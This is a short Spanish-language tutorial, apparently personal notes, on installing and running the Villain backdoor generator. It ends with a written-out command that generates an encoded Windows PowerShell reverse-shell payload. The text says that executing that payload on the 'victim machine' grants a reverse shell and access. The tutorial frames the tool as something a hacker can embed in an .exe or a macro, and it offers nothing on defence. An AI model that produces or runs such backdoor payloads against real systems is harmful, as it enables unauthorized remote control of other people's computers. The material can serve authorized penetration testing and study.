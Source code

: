 Villain es una herramienta de generación de backdoors para Windows y Linux que permite a los usuarios conectarse con servidores hermanos (otras máquinas que ejecutan Villain) y compartir sus sesiones de backdoor, lo que es útil para trabajar en equipo.  
  
Villain le permite a un hacker generar un payload en PowerShell, el cual puede ser insertado dentro de un archivo .exe o macro.

GitHub:
https://github.com/t3l3machus/Villain

### Tutorial Villain

Primero nos descargamos el repositorio en nuestro sistema, entramos en la carpeta y cambiamos los permisos del programa
![[Pasted image 20240214132020.png]]

Ejecutamos el siguiente comando para instalar unas librerias que necesita la herramienta
pip install -r requirements.txt
![[Pasted image 20240214132124.png|1000]]

Ahora ya podemos ejecutar el programa, para ello escribimos lo siguiente
python3 Villain.py
![[Pasted image 20240214132300.png|400]]

Con el comando help nos muestra todos los comandos de la herramienta
![[Pasted image 20240214132533.png]]

Con el comando help generate tenemos las instrucciones de uso
![[Pasted image 20240214132459.png]]

Con el sigueinte comando generaremos un payload para hacer un reverse shell de un sistema windows
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth1 encode 
![[Pasted image 20240214133839.png|1000]]

Si nosostros ahora conseguimos ejecutar este payload en la maquina victima conseguiremos una reverse shell y tendremos acceso a la maquina



